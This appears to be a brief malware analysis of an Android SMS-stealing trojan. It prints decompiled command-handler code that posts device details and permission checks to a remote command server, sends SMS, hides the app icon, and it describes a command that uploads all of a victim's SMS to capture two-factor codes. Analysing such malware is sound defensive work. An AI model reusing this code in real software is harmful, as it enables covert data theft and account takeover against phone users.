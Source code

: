 The mlawre will check the connectivity to the internet with ping or send single SMS.

```cs
 if (_comand.equals("ping")) {
            String str = "result=ok&action=ping&androidid=" + _android + "&model=" + _model + "&battry=" + _battry + "&opr=" + _opr;
            _data = str;
            _ht._poststring(_apilink, str);
        }
        if (_comand.equals("pingone") && _android.equals(_androidid)) {
            String str2 = "result=ok&action=pingone&androidid=" + _android + "&model=" + _model + "&battry=" + _battry + "&opr=" + _opr;
            _data = str2;
            _ht._poststring(_apilink, str2);
        }
        if (_comand.equals("SendSingleMessage") && _android.equals(_androidid)) {
            _sendlargesms(_nump, _txm);
        }
```
The malware will send a command send device info and command to hide/unhide the icon of installed APK.

```cs
 if (_comand.equals("getdevicefullinfo") && _android.equals(_androidid)) {
            Common.LogImpl("83473462", "Deviceinfo is OK", 0);
            String str3 = "result=ok&action=getdevicefullinfo&androidid=" + _android + "&opr=" + _opr + "&model=" + _model + "&battry=" + _battry;
            _data = str3;
            _ht._poststring(_apilink, str3);
        }
        if (_comand.equals("hideicon") && _android.equals(_androidid)) {
            Common.LogImpl("83473474", "hideicon is OK", 0);
            _hideapp(true);
        }
        if (_comand.equals("showhideicon") && _android.equals(_androidid)) {
            Common.LogImpl("83473483", "unhideicon is OK", 0);
            _hideapp(false);
        }
        if (_comand.equals("testphone") && _android.equals(_androidid)) {
            _result1 = _rn.Check(RuntimePermissions.PERMISSION_SEND_SMS);
            _result2 = _rn.Check(RuntimePermissions.PERMISSION_READ_SMS);
            _result3 = _rn.Check(RuntimePermissions.PERMISSION_READ_CONTACTS);
            String str4 = "result=ok&action=testphone&sendsms=" + BA.ObjectToString(Boolean.valueOf(_result1)) + "&readsms=" + BA.ObjectToString(Boolean.valueOf(_result2)) + "&contacts=" + BA.ObjectToString(Boolean.valueOf(_result3)) + "&model=" + _model;
            _data = str4;
            _ht._poststring(_apilink, str4);
        }
```

The malware wil send a command `getsms` to upload all SMS from victim's phone. This ensure that if the malware steals your credentials and has your SMS which contains 2 factor authentication 2FA then you are fucked. 
